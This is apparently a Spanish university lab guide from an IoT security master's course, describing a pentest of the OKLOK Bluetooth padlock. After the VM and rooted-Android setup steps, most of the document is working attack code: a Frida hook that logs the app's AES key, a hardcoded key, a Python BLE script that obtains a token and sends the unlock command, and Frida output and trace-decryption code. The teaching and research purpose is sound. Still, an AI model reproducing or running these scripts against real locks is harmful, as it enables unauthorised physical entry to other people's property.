

Pentest candado Bluetooth OKLOK
El objetivo de este Test de Penetración (Pentest) consiste en ver si somos capaces de encontrar la clave de desbloqueo de un candado inteligente para poder abrirlo mediante conexión bluetooth sin permiso del usuario.

El candado objetivo, modelo OKLOK Padlock, es un candado que se puede desbloquear mediante huella digital y usando una App Android diseñada para tal efecto.
Las versiones antiguas del candado tienen una vulnerabilidad conocida y documentada (TFM Jesus Alberto Tejedor Doria, 2020, basado en Attify Pentest kit) que permitía averiguar la clave de desbloqueo de una manera relativamente sencilla. Sin embargo, el fabricante ha actualizado la aplicación de Android, complicando la obtención de dicha clave.
El objetivo de este taller consiste en ser capaces de encontrar la clave de acceso mediante el estudio e instrumentación de la nueva aplicación. Para ello os explicaré cómo se conseguía la clave usando la aplicación antigua (M-IoT S&L P2: Pentest_Lock), con la esperanza de que algún hacker sea capaz de obtener claves nuevas de los candados que tenemos en la FDI y así poder volver a utilizar la práctica dentro de la asignatura Seguridad y Legalidad del Máster de IoT.
Existe otro agujero de seguridad documentado que puede resultar de utilidad:
- Transfer ownership of any FB50 smart lock to yourself (CVE-2019-13143)
- FB50 Smart Lock Vulnerability Disclosure (CVE-2019-13143)
- Picking the FB50 smart lock (CVE-2019-13143)
Material necesario
Para intentar replicar el hack necesitaremos un ordenador con Linux instalado y un dispositivo Android rooteado. Para facilitar la tarea os dejo una imagen de una máquina virtual de Ubuntu Mate y una imagen de Android para Raspberry Pi 4.
VirtualBox Ubuntu Mate 18.04 64b
En este enlace Ubuntu Mate 18.04.1 64b os dejo una MV preparada con todo lo que listo a continuación. Para poder descargar el fichero deberéis de estar identificados con la cuenta de correo de la UCM.
-
Usuario/contraseña:
master_iot/SyL -
Paquetes instalados sobre la versión stock:
sudo apt-get install ubertooth
sudo apt-get install python-pip libglib2.0-dev python-dev
sudo pip install bluepy
sudo pip install pycrypto
sudo pip install pyaes
sudo apt install aapt
sudo apt install apktool
sudo apt install zipalign
sudo apt install python3-pip
sudo pip3 install objection
sudo apt install adb
sudo apt install default-jdk
- Acceso a unidades compartidas con el Host:
sudo adduser masteriot vboxsf
-
La versión de
apk-tooldel repositorio (v.v2.4.0-dirty) no parece valerle aobjection: Error apktool version should be at least 2.4.1. Copiamos apk-tool v2.4.1 en~/biny mantenemos el paquete, ya que instala algo necesario (no he localizado el qué). -
Wireshark actualizado y sin privilegios (requiere
logout). Wireshark permite monitorizar la red del Host si se configura en modobridgedy con la configuraciónPromiscuous mode: Allow all.
sudo add-apt-repository ppa:wireshark-dev/stable
sudo apt-get update
sudo apt-get install wireshark
sudo dpkg-reconfigure wireshark-common
sudo addgroup masteriot wireshark
- Bettercap:
- Descargar y copiar el binario precompilado en
/sbin/, necesita librerías
- Descargar y copiar el binario precompilado en
- Jadx:
- Descargar y copiar en
/opt/jadx-1.1.0 - Nota: este programa consume muchos recursos, asignar 4GiB y 2 CPUs en la MV
- Descargar y copiar en
sudo apt-get install libpcap-dev libnetfilter-queue-dev
Raspberry Pi Android 9 (LineageOS 16.0)
- Enlace a la imagen original LineageOS 16.0. Para poder descargar el fichero deberéis de estar identificados con la cuenta de correo de la UCM.
- Manual: LineageOS 16.0 (Android 9)
- Necesario conectar un monitor HDMI sin adaptador, o configurar a mano la resolución según manual.
- Pasos del manual necesarios:
- Habilitar opciones de desarrollador
- Habilitar acceso de root
- Otras consideraciones:
- Botón de apagado: F5
- Es necesario activar adb por red
- Habilitar log bluetooth
- Servidor frida: frida-server-14.2.8-android-arm
Apks y utilidades
Android Apk
Os dejo dos versiones antiguas de la App Oklok que no están muy ofuscadas:
Script Frida
Script para conseguir la clave mediante Frida:
Java.perform(function ()
{
var CMDUtils = Java.use('com.coolu.blelibrary.utils.CMDUtils');
var log_byte_array = function (arr) {
var result = "";
var buffer = Java.array('byte', arr);
for(var i = 0; i < buffer.length; ++i) {
var hexb = (buffer[i] & 0xFF).toString(16);
if (hexb.length == 1) hexb = '0' + hexb;
result += hexb;
}
console.log(result);
};
CMDUtils.Encrypt.implementation = function (pt, key) {
console.log('[+] Inside Encrypt() ======');
var ct = this.Encrypt(pt, key);
console.log('Pt:')
log_byte_array(pt)
console.log('key:')
log_byte_array(key);
return ct;
};
CMDUtils.Decrypt.implementation = function (ct, key) {
console.log('[+] Inside Decrypt() ======');
var pt = this.Decrypt(ct, key);
console.log('Pt:')
log_byte_array(pt)
console.log('Key:')
log_byte_array(key);
return pt;
};
});
Script de apertura
Script Python 2 para abrir el candado (una vez que conocemos la clave AES):
from bluepy.btle import Scanner, Peripheral, DefaultDelegate
from Crypto.Cipher import AES
AESKEY = '034100624f0a29355c193f1a39192356'
class MyDelegate(DefaultDelegate):
def __init__(self):
DefaultDelegate.__init__(self)
self.token = None
def handleNotification(self, cHandle, data):
cipher = AES.new(AESKEY.decode('hex'), AES.MODE_ECB)
pt = cipher.decrypt(data)
if pt.startswith('\x06\x02\x07'):
self.token = pt[3:7]
print '[+] Token:', self.token.encode('hex')
def connect(addr):
print '[+] Connecting'
p = Peripheral(addr)
write_char = p.getCharacteristics(uuid='000036f5-0000-1000-8000-00805f9b34fb')[0]
notify_char = p.getCharacteristics(uuid='000036f6-0000-1000-8000-00805f9b34fb')[0]
# Enable notifications, https://stackoverflow.com/a/15722811
p.writeCharacteristic(7, '0100'.decode('hex'), withResponse=True)
d = MyDelegate()
p.withDelegate(d)
gettokencmd = '06010101' + '0'*24
gettokstr = AES.new(AESKEY.decode('hex'), AES.MODE_ECB).encrypt(gettokencmd.decode('hex'))
print '[+] Sending GET_TOKEN command'
write_char.write(gettokstr, withResponse=True)
p.waitForNotifications(2)
if d.token != None:
cipher = AES.new(AESKEY.decode('hex'), AES.MODE_ECB)
# Send unlock command
pt = '050106303030303030'.decode('hex') + d.token + '\x00\x00\x00'
write_char.write(cipher.encrypt(pt))
print '[+] Sent unlock command'
def main():
s = Scanner()
print '[+] Scanning for 5s...'
s.scan(5)
for dev in s.getDevices():
if dev.getValueText(0x9) == 'BlueFPL':
print '[+] Found OKLOK'
connect(dev.addr)
break
if __name__ == '__main__':
main()
Análisis de tráfico BT de una secuencia de apertura
Ejemplo de captura y análisis de tráfico mediante Wireshark: btsnoop_hci.log
Salida de Frida por pantalla:
$ frida -U -l oklok-frida_new.js com.oklok.y
____
/ _ | Frida 14.2.8 - A world-class dynamic instrumentation toolkit
| (_| |
> _ | Commands:
/_/ |_| help -> Displays the help system
. . . . object? -> Display information about 'object'
. . . . exit/quit -> Exit
. . . .
. . . . More info at https://www.frida.re/docs/home/
[VirtualBox::com.oklok.y]->
[VirtualBox::com.oklok.y]->
[+] Inside Encrypt() ======
Pt:
060101015705162b7c5b34162b4b4b2e --> Traza Nº 101
key:
034100624f0a29355c193f1a39192356
[+] Inside Encrypt() ======
Pt:
0602077464a8bd010205000000000000 --> Traza Nº 103
Key:
034100624f0a29355c193f1a39192356
[+] Inside Decrypt() ======
Pt:
06010101644c391e5b6a4f3237477a78 --> Traza Nº 105
key:
034100624f0a29355c193f1a39192356
[+] Inside Decrypt() ======
Pt:
0602077464a8bd010205000000000000 --> Traza Nº 107
Key:
034100624f0a29355c193f1a39192356
[+] Inside Encrypt() ======
Pt:
020101017464a8bd2f22114d0c157e65 --> Traza Nº 109
key:
034100624f0a29355c193f1a39192356
[+] Inside Decrypt() ======
Pt:
0202015e64a8bd010205000000000000 --> Traza Nº 112
Key:
034100624f0a29355c193f1a39192356
[+] Inside Encrypt() ======
Pt:
0501063030303030307464a8bd1f0375 --> Traza Nº 113
key:
034100624f0a29355c193f1a39192356
[+] Inside Decrypt() ======
Pt:
0502010064a8bd010205000000000000 --> Traza Nº 121
Key:
034100624f0a29355c193f1a39192356
[+] Inside Decrypt() ======
Pt:
050d010064a8bd010205000000000000 --> Traza Nº 123
Key:
034100624f0a29355c193f1a39192356
Process terminated
[VirtualBox::com.oklok.y]->
Script de Python 2 análisis de trazas:
#!/usr/bin/python2.7
from Crypto.Cipher import AES
import binascii
aeskey="034100624f0a29355c193f1a39192356"
aesobj = AES.new(aeskey.decode("hex"), AES.MODE_ECB)
wiresharkpacket = "64642f5d28a845260d9c3b7464d1003f"
print "Traza 101: " + str(aesobj.decrypt(wiresharkpacket.decode("hex")).encode('hex'))
wiresharkpacket = "b7375edcb4311b888c78b794fa828853"
print "Traza 103: " + str(aesobj.decrypt(wiresharkpacket.decode("hex")).encode('hex'))
wiresharkpacket = "d349035cb778578f78761a9b6b2344fd"
print "Traza 105: " + str(aesobj.decrypt(wiresharkpacket.decode("hex")).encode('hex'))
wiresharkpacket = "b7375edcb4311b888c78b794fa828853"
print "Traza 107: " + str(aesobj.decrypt(wiresharkpacket.decode("hex")).encode('hex'))
wiresharkpacket = "e2608fd9ec82d3f082962256188ca320"
print "Traza 109: " + str(aesobj.decrypt(wiresharkpacket.decode("hex")).encode('hex'))
wiresharkpacket = "7c961523beeabc82b97305e1facb1d41"
print "Traza 112: " + str(aesobj.decrypt(wiresharkpacket.decode("hex")).encode('hex'))
wiresharkpacket = "62a0972768b33fbe2fb95456c36b9bf6"
print "Traza 113: " + str(aesobj.decrypt(wiresharkpacket.decode("hex")).encode('hex'))
wiresharkpacket = "71dda074a979da25e1b51f51d8689a72"
print "Traza 121: " + str(aesobj.decrypt(wiresharkpacket.decode("hex")).encode('hex'))
wiresharkpacket = "e8a8855bb311de5ad1d12e79a5206d89"
print "Traza 123: " + str(aesobj.decrypt(wiresharkpacket.decode("hex")).encode('hex'))